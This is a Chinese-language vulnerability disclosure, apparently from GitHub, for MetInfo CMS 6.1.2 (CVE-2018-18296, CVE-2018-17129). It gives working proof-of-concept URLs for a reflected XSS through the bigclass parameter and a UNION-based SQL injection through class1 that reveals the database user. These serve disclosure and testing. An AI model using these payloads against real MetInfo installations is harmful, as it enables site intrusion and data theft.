


### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Metinfo-6.1.2版本存在XSS漏洞&SQL注入漏洞|2018-10-12|踏月留香|[https://www.metinfo.cn/](https://www.metinfo.cn/) | [下载地址](https://www.metinfo.cn/upload/file/MetInfo6.1.2.zip) |6.1.2| [CVE-2018-18296](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18296)/[CVE-2018-17129](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17129)|  

#### 漏洞概述  

> 漏洞存在于MetInfo6.1.2/admin/index.php页面，由于参数bigclass过滤不严，导致XSS漏洞
本地搭建网站，首先登录网站后台:`http://172.16.141.134/MetInfo6.1.2/admin/`，登录成功后，构造payload：
`http://172.16.141.134/MetInfo6.1.2/admin/index.php?lang=cn&anyid=25&n=column&c=index&a=doadd&bigclass=1%22%3e%3cscript%3ealert(/xss/)%3c%2fscript%3e` ，即可执行跨站脚本。  

### POC实现代码如下：  

> XSS漏洞的 exp代码如下：  

``` html
http://127.0.0.1/MetInfo6.1.2/admin/index.php?lang=cn&anyid=25&n=column&c=index&a=doadd&bigclass=1%22%3e%3cscript%3ealert(/xss/)%3c%2fscript%3e
```

> SQL注入漏洞的 exp代码如下：  
> 漏洞存在于MetInfo6.1.2 `/app/system/feedback/admin/feedback_admin.class.php`页面中，由于该页面的class1参数过滤不严，导致存在SQL注入漏洞。
本地搭建网站，首先登录网站后台:`http://172.16.141.134/MetInfo6.1.2/admin/`，登录成功后，构造payload：
`http://172.16.141.134/MetInfo6.1.2/admin/index.php?lang=cn&anyid=29&n=feedback&c=feedback_admin&a=doexport&class1=-1//union//select//concat(0x3a,user(),0x3a)//from/**/information_schema.tables&met_fd_export=-1`，访问后网站会导出一个excel表，excel表的名称为数据库用户名。


``` html
http://127.0.0.1/MetInfo6.1.2/admin/index.php?lang=cn&anyid=29&n=feedback&c=feedback_admin&a=doexport&class1=-1/**/union/**/select/**/concat(0x3a,user(),0x3a)/**/from/**/information_schema.tables&met_fd_export=-1
```

### POC截图效果如下：

- XSS漏洞POC运行截图


- SQL注入漏洞POC运行截图


